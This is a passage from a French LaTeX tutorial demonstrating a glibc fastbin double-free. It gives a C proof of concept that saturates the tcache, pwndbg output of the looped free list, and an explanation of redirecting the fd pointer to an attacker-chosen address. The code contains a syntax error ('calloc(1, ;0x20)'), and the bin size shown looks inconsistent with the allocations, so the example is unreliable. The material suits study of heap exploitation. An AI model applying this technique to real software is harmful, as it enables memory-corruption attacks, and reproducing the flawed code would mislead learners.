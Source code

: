 \paragraph{Démonstration par le code:}

\begin{verbatim}
#include <stdlib.h>

int main() {
    // 1. Saturation du Tcache (7 chunks) pour forcer l'usage des Fastbins
    void *tcache[7];
    for(int i=0; i<7; i++) tcache[i] = malloc(0x20);
    for(int i=0; i<7; i++) free(tcache[i]);

    // 2. Allocation initiale des chunks cibles
    // calloc est utilisé pour contourner le comportement du Tcache,
    // car il n'utilise jamais les chunks stockés dans le tcache pour ses allocations.
    long *a = calloc(1, 0x20);
    long *b = calloc(1, 0x20);

    // 3. Vulnérabilité : Double Free dans le Fastbin
    free(a);
    free(b);
    free(a); // Contournement: La liste est maintenant A -> B -> A

    // 4. Exploitation : Récupération des pointeurs
    long *c = calloc(1, 0x20); // Retourne le pointeur 'a'
    long *d = calloc(1, ;0x20); // Retourne le pointeur 'b'
    long *e = calloc(1, 0x20); // Retourne le pointeur 'a' à nouveau !

    // L'attaquant possède maintenant deux pointeurs (c et e) 
    // qui pointent vers la même adresse physique.
    return 0;
}
\end{verbatim}

\begin{pwndbg}[bins]{text}
    tcachebins
    empty
    fastbins
    0x20: 0x5555555593e0 !\textcolor{pwndbgblue}{->}! 0x555555559400 !\textcolor{pwndbgblue}{<-}! !\textcolor{pwndbgred}{0x5555555593e0 (loop)}!
    unsortedbin
    empty
    smallbins
    empty
    largebins
    empty
\end{pwndbg}

Étant donné que la liste est corrompue, lorsque l'application alloue à nouveau ces chunks, l'allocateur renvoie deux pointeurs vers exactement le même espace mémoire physique. L'attaquant peut utiliser le premier pointeur pour écrire une adresse cible dans le pointeur \texttt{fd} du chunk. La prochaine fois que l'allocateur retirera un chunk du Fastbin, il suivra aveuglément ce pointeur \texttt{fd} corrompu et renverra l'adresse cible de l'attaquant.

